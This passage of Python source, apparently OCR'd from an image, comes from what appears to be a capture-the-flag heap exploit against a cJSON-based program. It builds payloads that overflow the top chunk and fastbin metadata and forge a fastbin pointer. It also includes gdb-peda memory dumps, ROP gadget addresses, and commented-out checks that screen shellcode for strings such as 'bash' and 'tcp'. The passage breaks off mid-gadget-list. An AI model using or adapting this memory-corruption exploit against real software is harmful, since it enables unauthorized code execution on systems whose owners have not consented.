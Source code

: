 ```python
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))

    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)

    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
 gdb-peda$ x/20gx 0x676020-8+2
 0x67601a:       0x51e8000000000000      0x51f0000000000045
 '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))

    '''
 gdb-peda$ x/5i 0x7fea5aabd050
 0x7fea5aabd050 <munmap>:     mov    eax,0xb
 0x7fea5aabd055 <munmap+5>:   syscall
 0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
 0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
 0x7fea5aabd05f <munmap+15>:  ret
 '''
    '''
 0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
 0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
 0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
```